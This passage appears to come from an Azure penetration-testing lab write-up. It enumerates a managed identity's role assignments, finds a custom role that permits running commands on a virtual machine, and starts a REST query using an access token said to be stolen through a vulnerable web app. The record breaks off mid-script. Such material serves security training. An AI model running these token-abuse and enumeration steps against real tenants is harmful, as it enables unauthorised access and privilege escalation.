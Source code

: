 ```powershell
ResourceId        : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Network/networkInterfaces/bkpadconnect368
Tags              :

Name              : bkpadconnectIP
ResourceGroupName : Engineering
ResourceType      : Microsoft.Network/publicIPAddresses
Location          : germanywestcentral
ResourceId        : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Network/publicIPAddresses/bkpadconnectIP
Tags              :
```

- We can see that this Managed Identity has access to a VM named `bkpadconnect` that belongs to the `Engineering` Resource Group. We can enumerate for Role assignments on that specific Resource.
```powershell
PS C:\Windows\system32> Get-AzRoleAssignment | Select-Object -Property Scope,RoleDefinitionName

Scope                                                                                                                                        RoleDefinitionName
-----                                                                                                                                        ------------------
/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect      Reader
/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect      Virtual Machine Command Executor
/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Network/networkInterfaces/bkpadconnect368 Reader
/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Network/publicIPAddresses/bkpadconnectIP  Reader
/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect      Reader
```

- We can see an interesting Role. We can request more information about it.
```powershell
PS C:\Auditor> Get-AzRoleDefinition -Name "Virtual Machine Command Executor"


Name             : Virtual Machine Command Executor
Id               : f824060c-c059-4ebc-991c-82fd4ee5ea61
IsCustom         : True
Description      : Ability to only run commands on the Virtual Machine.
Actions          : {Microsoft.Compute/virtualMachines/runCommand/action}
NotActions       : {}
DataActions      : {}
NotDataActions   : {}
AssignableScopes : {/subscriptions/b413826f-108d-4049-8c11-d52d5d388768}
```

- Since we cannot see the permissions for the current token (`Get-AzRoleAssignment` only shows Role assignments to ObjectIDs and there is no way to get this attribute for the Managed Identity through this cmdlet), we need to use the Azure REST API calls to query the Roles that this Managed Identity has on this specific Resource. We can request a new ARM access token by exploiting the vulnerable web app.
- First we will find the Subscription that this specific Managed Identity belongs to.
```powershell
$Token = 'eyJ0...GK2cg'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
```